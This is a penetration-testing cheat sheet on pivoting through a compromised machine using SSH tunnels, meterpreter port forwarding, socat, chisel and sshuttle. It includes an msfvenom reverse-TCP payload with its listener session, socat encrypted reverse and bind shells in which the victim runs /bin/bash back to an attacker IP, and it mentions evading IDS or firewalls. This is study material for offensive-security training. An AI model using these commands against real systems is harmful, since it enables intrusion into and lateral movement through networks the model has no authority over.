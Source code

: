 ```yaml
---
title: Proxy & Port forwarding
description: Desciption of two pivot techniques, port forwarding and proxy.
---
```


# Proxy & Port forwarding

**2 methods :**

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall.
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host.

Port Forwarding tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device.

## Using SSH

### Proxy

**Proxy :** http://127.0.0.1:8080

```bash
ssh -D 8080 user@example.com -fN
```

**Proxy :** socks5://127.0.0.1:9050

```bash
ssh -g -D 9050 user@example.com -fN
```

### Port forwarding (local)

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com -fN
```

- `-f` : Backgrounds ssh.
- `-N` : Do not execute a remote command.

### Port forwarding (remote)

**Goal :** localhost:4444 -> host1:4444 -> host2:80

Listen on all interfaces :

```bash
# localhost:4444 -> host1:4444 -> host2:80
ssh -R 0.0.0.0:4444:host2:80 user@host1 -fN
```

!!! warning
    You need also to configure SSH daemon on target host to allow client to specify the bind_address. It is prohibited by default to listen to all interfaces. So, you will always find it listening on loopback even if you specifiy 0.0.0.0 as bind_address.

When you cannot listen on all interfaces :

```bash
# localhost:4444 -> host1:4444
ssh -L 4444:127.0.0.1:4444 user@host1 -fN
# host1:4444 -> host2:80
ssh -R 4444:host2:80 user@host1 -fN
```

## Using metasploit (meterpreter)

### Port forwarding

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

## Using socat

### Port forwarding

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Listent on `33060`, then redirect to `172.16.0.10:3306`.

- `fork` : create new process for every connection.
- `reuseaddr` : port stays open after a connection close.

### Encrypted shell

Generate certificates :

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```
Reverse shell :

```bash
# Listener (attacker)
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 -

# Connection (victim)
./socat OPENSSL:10.10.10.1:4444,verify=0 EXEC:/bin/bash
```

Bind shell :

```bash
# Listener (victim)
./socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# Connection (attacker)
socat OPENSSL:10.10.200.1:4444,verify=0 -
```

## Using chisel

Link : [chisel](https://github.com/jpillora/chisel).

### Port fowarding

Example : `localhost:8081` -> `victim:8080` (from local)

```bash
# Listener (attacker on 10.10.10.1)
./chisel server -p 4444 --reverse

# Connection (victim)
./chisel client 10.10.10.1:4444 R:8081:127.0.0.1:8080
```

## Using sshuttle

Link : [sshuttle](https://github.com/sshuttle/sshuttle).

Sshuttle acts as a VPN and allows us to pass our traffic targeting the victim's network through the victim machine. Sshuttle uses the SSH protocol, so communications are encrypted.

```bash
# SSH (user / password)
sudo sshuttle -r user@10.100.10.1 -N
# SSH (private key)
sudo sshuttle -r user@10.100.10.1 -N --ssh-cmd 'ssh -i id_rsa'

# Manually set the network range
sudo sshuttle -r user@172.16.0.5 172.16.0.0/24
# or
sudo sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
```

**Practical example :**

```bash
$ sudo sshuttle -r root@10.200.196.200 -N --ssh-cmd 'ssh -i id_rsa -o StrictHostKeychecking=no' &
[1] 6803
c : Connected to server.
# 10.200.196.150, same network as 10.200.196.200
$ curl 10.200.196.150
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8">
  <title>Page not found at /</title>
  <meta name="robots" content="NONE,NOARCHIVE">
  <style type="text/css">
[...]
```

